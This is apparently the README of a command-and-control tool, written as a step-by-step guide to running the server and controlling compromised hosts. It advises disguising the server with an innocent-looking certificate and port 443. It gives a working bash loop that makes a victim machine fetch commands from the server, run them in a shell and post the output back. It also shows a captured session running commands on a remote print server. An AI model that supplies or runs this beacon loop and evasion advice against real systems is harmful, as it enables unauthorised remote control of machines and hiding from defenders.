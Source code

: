 HOWTO
=====

1. Get a C2 server set up
-------------------------
This is the easy part.  Assuming you've already got a binary named C2, start
it up

```sh
$ ./c2
2017/05/19 01:33:20 Generating TLS keypair for 0.0.0.0
2017/05/19 01:33:20 rsa.PublicKey *rsa.PrivateKey
2017/05/19 01:33:20 Made certificate for 0.0.0.0
2017/05/19 01:33:20 Listening for controller connections to ./c2.sock
2017/05/19 01:33:20 Listening for https connections to 0.0.0.0:4433
```

This starts the C2 server listening with a self-signed cert on TCP port 4433.
While this is sufficient for testing, in real life it'd be better to use a
trusted (or at least less suspicious) TLS keypair.

```sh
./c2 -cert innocent.crt -key innocent.key
```

Of course, beacons to 4433 are suspicious.  A firewall rule to redirect traffic
originally destined to 4433 to 443 is probably a good idea.  If you're running
on Kali as root anyways, the C2 server can be made to listen on 443 itself.

```sh
./c2 -cert innocent.crt -key innocent.key -l 0.0.0.0:443
```

By default, a Unix domain socket named `c2.sock` is created in the current
directory.  It should probably go in `/var/run` with the rest of the sockets.

```sh
./c2 -cert innocent.crt -key innocent.key -l 0.0.0.0:443 -csock /var/run/c2.sock
```

On Windows, Unix domain sockets don't work, so it's necessary to listen for
control connections on a TCP socket.  This is unencrypted, so please only
listen on loopback.

```sh
c2.exe -cert innocent.crt -key innocent.key -l 0.0.0.0:443 -csock 127.0.0.1:4321 -csockip
```

The C2 server doesn't daemonize itself, so starting it backgrounded (or in
tmux/screen) is a good idea.

```sh
nohup ./c2 -cert innocent.crt -key innocent.key -l 0.0.0.0:443 -csock /var/run/c2.sock >>c2.log 2>&1 &
```

2. Get a victim to beacon back
------------------------------
This one's up to you.
On a linux box you can run something like 
```sh
while :; do CMD=$(curl -sqLk https://c2address/victimID); if [ -z "$CMD" ]; then continue; fi; echo "-> $CMD"; echo "$CMD" | /bin/sh 2>&1 | curl --data-binary '@-' -sqLk http://c2address/victimID; sleep 1; done
```

Or, more clearly

```sh
while :; do
        CMD=$(curl -sqLk https://c2address/victimID)
        if [ -z "$CMD" ]; then
                continue
        fi

        echo "-> $CMD"

        echo "$CMD" | /bin/sh 2>&1 | \
            curl --data-binary '@-' -sqLk http://c2address/victimID

        sleep 1
done
```

One second beacons might arouse suspicion, but for testing they work fine.  For
real engagments, the becon interval can be as long as needed.

3. Control
----------
Connect to the control socket.  rlwrap is a nifty tool to make erasing and such
a little less painful.

```
$ rlwrap nc -vU /var/run/c2.sock
Welcome.  You are unix-sock-1495172888282047855.
Which endpoint would you like to control?
Enter an endpoint path or ? to list endpoints.
```

If you're already getting beacons, list the endpoints available.

```
Enter an endpoint path or ? to list endpoints.
> ?
Endpoint                  Last beacon
--------                  -----------
/client_blue/printserv    2017-05-19 01:48:05.544662056 -0400 EDT

Which endpoint would you like to control?
Enter an endpoint path or ? to list endpoints.
```

Only one in the example, we'll control it.

```
Enter an endpoint path or ? to list endpoints.
> /client_blue/printserv
/client_blue/printserv> uname -a
/client_blue/printserv>  -> "uname -a"
OpenBSD printserv.dmz.clientnetwork.com 6.1 GENERIC.MP#20 amd64
uptime
/client_blue/printserv>  -> "uptime"
 1:52AM  up 20 days,  5:46, 1 user, load averages: 2.80, 2.94, 3.01
```

The output, it's not pretty, but it works.

Multiple control connections work just fine, as do multiple control connections
to the same endpoint.

Enjoy.
